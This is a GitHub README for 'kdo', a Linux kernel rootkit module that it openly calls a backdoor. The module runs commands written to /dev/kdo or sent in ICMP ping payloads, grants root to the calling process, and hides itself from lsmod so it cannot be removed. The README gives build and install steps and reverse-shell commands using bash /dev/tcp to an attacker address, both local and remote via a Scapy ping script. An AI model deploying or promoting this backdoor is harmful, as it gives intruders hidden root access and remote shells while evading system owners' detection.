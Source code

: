 kdo
===
A "kernel sudo". This LKM creates a character device at `/dev/kdo` to which commands can be written
and executed via `call_usermodehelper`, effectively creating a backdoor  in userland. It also
registers an ICMP hook using netfilter to receive remote commands via ICMP payloads. Apart from
command execution, other convenient builtins are implemented as well. Default values can be modified
in `src/include/config.h`.

A Python script is provided to send the ICMP packet (`src/kdo-ping.py`). [Scapy](https://scapy.net/)
was used craft it.


Features
--------
- `kdo-exec [argv]` \
Execute a command via call_usermodehelper.

- `kdo-root` \
Grant root privileges to the current process (set process ids to 0).

- `kdo-hide` \
Hide module from `lsmod` and make it impossible to unload with `rmmod`.

- `kdo-show` \
Make module visible and removable after running `kdo-hide`.


Installation
------------
**1.** Clone the repository
```bash
git clone https://github.com/hiatus/kdo
```

**2.** Build the module
```bash
cd kdo
make
```

**3.** Insert the module 
```
sudo insmod kdo.ko
```

Configuration
-------------
Default values can be modified in `src/include/config.h`, such as the name of the created device
(`kdo` by default), the magic strings for the module's functionalities and the shell to execute
commands with. Logging can be enabled by defining the `DEBUG` symbol (undefined by default).


Usage
-----
Simply write to `/dev/kdo` or craft an ICMP request whose payload is a valid `kdo` command string.

Note that because the command execution backend inserts it's arguments as the last parameter for
`/bin/bash -c` (can be changed, see **Configuration**), shell functionalities such as redirection
are supported. For example, to spawn a reverse shell to `192.168.0.2:1337`, run in the target
machine:

```bash
echo 'kdo-exec bash -i &> /dev/tcp/192.168.0.2/1337 2>&1 0>&1' > /dev/kdo
```

To do the same thing remotely, send a ping from the attacker side with the same string as payload:

```bash
sudo python src/kdo-ping.py -t 192.168.0.3 'kdo-exec bash -i &> /dev/tcp/192.168.0.2/1337 2>&1 0>&1'
```